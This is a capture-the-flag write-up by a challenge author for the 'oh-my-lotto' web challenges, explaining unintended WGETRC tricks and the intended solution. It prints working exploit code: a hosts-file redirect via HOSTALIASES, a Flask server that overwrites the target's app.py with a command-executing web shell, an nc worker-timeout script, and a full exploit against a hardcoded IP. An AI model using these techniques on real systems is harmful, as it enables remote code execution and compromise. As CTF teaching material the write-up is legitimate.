 # web-oh-my-lotto&revenge-EH

## Something

Due to poor consideration, this question may not bring a better experience to you. I'm really sorry. I want to explain something to you. After the first challenge was solved in unintented way, I thought about many ways for the revenge challenge, such as putting `wgetrc` in the blacklist, or locking the attachment with the flag of the first challenge. However, in order not to disclose the solution of the first challenge, I finally chose not to ban the `wgetrc`, but limited the way to obtain the flag, only by rce. But also due to some problems such as permission management, so that the use of `wgetrc` can also solve the revenge challenge. I'm sorry for that, but I did learn a lot from the unintented writeup. Next, I will restore my known unintented and intented solutions, hoping to bring you new knowledge. :)

## Unintented writeup

### oh-my-lotto

* Use `WGETRC` to set `http_proxy` proxy to your own server, download a file like forecast file, and you can get the flag.

* First, get the result of lotto, then upload the result as a forecast, and use `PATH` let wget error, so that the lotto result can be equal to the forecast, and get the flag.

### oh-my-lotto-revenge

* Use `WGETRC` to set `http_proxy` and `output_documen`, cover the local wget application, and then use wget to complete RCE.

* Use `WGETRC` to set `http_proxy` and `output_documen`, write SSTI in folder `templates/`, then use SSTI get RCE.

## Intented writeup

According to the attachment, you can set up a website running environment locally, according to the source code `app.py`, when the uploaded `forecast.txt` file content are same as `lotto_result.txt`, you can get the flag. But generate `lotto_result.txt` uses the `secrets` library, which uses a safe random number generation method. Theoretically, there is no risk of being predicted.

It is found that you can run and input an environment variable during lotto guessing, and the environment variable will be passed to `os.system('wget --content-disposition -N lotto')`, but the environment variable will pass through `safe_check` function check.

```
def safe_check(s):
    if 'LD' in s or 'HTTP' in s or 'BASH' in s or 'ENV' in s or 'PROXY' in s or 'PS' in s: 
        return False
    return True
```

Some common methods of using environment variables have been forbidden. By browsing the Linux environment variable document` http://www.scratchbox.org/documentation/general/tutorials/glibcenv.html `In the Network Settings, it is found that `HOSTALIASES` can set the hosts loading file of the shell. The hosts file can  can be uploaded by using the `/forecast` route, and the request sent by `wget --content-disposition -N lotto` to lotto can be forwarded to our own domain name, such as the following hosts file.

```
# hosts
lotto mydomain.com
```

At the same time, it is noted that the parameter `--content-disposition -N` is added to the wget request, indicating that the saved file name of the request will be determined by the file name specified by the service provider, and the original file can be overwritten. Then we can  provide a file download function in our own domain. Set the returned file name to `app.py`, refer to POC

```
from flask import Flask, request, make_response
import mimetypes

app = Flask(__name__)

@app.route("/")
def index():

    r = '''
from flask import Flask,request
import os


app = Flask(__name__)
@app.route("/test", methods=['GET'])
def test():
    a = request.args.get('a')
    a = os.popen(a)
    a = a.read()
    return str(a)

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
'''

    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response



if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

At this time, you will find that the `app.py` has been covered, but it can't directly RCE, because the website uses gunicorn deployment, `app.py` will not be loaded in real time in case of change. However, gunicorn uses a `pre forked worker` mechanism. When a worker times out, gunicorn will restart the worker, and the POC of the worker timeout is as follows


```
# exploit.sh
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000
```

Final worker reload `app.py`, you can complete RCE and read flag. Refer to the complete POC as follows:

```
# exp.py

import requests
import os
import time
import subprocess

s = requests.session()

base_url = 'http://124.223.208.221:53000/'
url_upload = base_url + 'forecast'
proxies = {
    'http': 'http://127.0.0.1:8080'
}

r = s.post(url=url_upload, proxies=proxies, files={"file":("hosts", open('hosts', 'rb'))})
print(r.text)

url_env = base_url + 'lotto'
data = {
    'lotto_key': 'HOSTALIASES',
    'lotto_value': '/app/guess/forecast.txt'
}
r = s.post(url=url_env, data=data)

subprocess.Popen('./exploit.sh', shell=True)
# os.system('./exploit.sh')
for i in range(1, 53):
    print(i)
    time.sleep(1)

while True:
    url_shell = base_url + 'test?a=env'
    print(url_shell)
    r = s.get(url_shell)
    print(r.text)
    if '*ctf' in r.text:
        print(r.text)
        break
```
